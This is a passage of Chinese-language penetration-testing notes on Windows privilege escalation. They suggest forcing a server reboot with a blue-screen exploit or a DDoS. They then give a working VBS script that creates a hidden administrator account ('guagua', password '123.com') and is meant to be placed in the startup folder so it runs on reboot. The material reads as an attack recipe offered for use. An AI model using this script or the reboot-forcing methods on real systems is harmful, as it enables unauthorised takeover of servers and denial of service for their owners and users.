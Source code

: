 1.上传到目录必须具备可读写的权限

2.调用的cmd也必须有足够的权限

3.重启服务器可以利用一些可导致服务器蓝屏的exp，或者DDOS拒绝服务

###### 提权方式

* 直接将vbs提权脚本上传到启动项目录下

  * ​![image](assets/image-20241028200719-8mbdypk.png)​

    vbs提权脚本代码：

    guagua.vbs

    ```bash
    set wsnetwork=CreateObject("WSCRIPT.NETWORK") 
    os="WinNT://"&wsnetwork.ComputerName 
    Set ob=GetObject(os)         '得到adsi接口,绑定 
    Set oe=GetObject(os&"/Administrators,group")       '属性,admin组 
    Set od=ob.Create("user", "guagua")         '建立用户 
    od.SetPassword "123.com"        '设置密码 
    od.SetInfo         '保存 
    Set of=GetObject(os&"/guagua",user)        '得到用户 
    oe.add os&"/guagua"
    ```

    将该文件上传到启动项目就可以C:/Documents and Settings/All Users/

    查看用户

    ​![image](assets/image-20241028201335-4peocwd.png)​
* 利用sql命令来进行vbs脚本的创建及添加
